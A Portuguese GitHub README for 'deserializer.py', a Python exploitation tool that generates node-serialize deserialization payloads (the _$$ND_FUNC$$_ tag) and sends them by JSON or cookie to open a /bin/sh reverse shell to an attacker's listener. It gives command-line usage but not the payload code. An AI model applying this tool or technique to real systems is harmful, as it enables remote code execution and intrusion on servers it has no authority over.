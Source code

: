 # 🧬 deserializer.py

![dese](https://github.com/user-attachments/assets/7c3f398f-3da5-4cef-9e70-62d08141e59f)


Ferramenta de exploração para **Node.js Deserialization (node-serialize)** com suporte à execução automatizada de payloads **Reverse Shell**.

Este script foi feito para **gerar, codificar e opcionalmente enviar automaticamente** um payload malicioso para aplicações Node.js vulneráveis à deserialização. Ele suporta envio via JSON direto no corpo da requisição ou através de cookies.

---

## 🚀 Funcionalidades

- Geração de payload malicioso com shell reversa (`/bin/sh`) usando `node-serialize`.
- Codificação automática em Base64 para uso em cookies.
- Envio automático do payload com listener embutido.
- Suporte ao envio via **JSON** ou **Cookie**.
- Uso simples por linha de comando com parâmetros.

---

### Atenção:

Ele passa o payload no campo "email" e o campo poderá/deverá ser alterado para o campo que a aplicação receberá!

## 📦 Requisitos

- Python 3.6+
- `requests` (`pip install requests`)
- `netcat` (`nc`) instalado no sistema

---

## 🧠 Como funciona

O script gera um payload com a tag `_$$ND_FUNC$$_`, usada em exploits de `node-serialize`, onde uma função JavaScript é deserializada e executada no backend Node.js. Ao ser executado, ele conecta ao seu IP e porta definidos, abrindo uma shell remota.

---

## 🛠️ Uso

### Geração simples do payload

    python3 deserializer.py <LHOST> <LPORT>

### Envio automático já com a reverse shell + tipo de payload para cookie:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --cookie

### Envio automático já com a reverse shell + tipo de payload para json:

    python3 deserializer.py <LHOST> <LPORT> --reverse <URL> --json

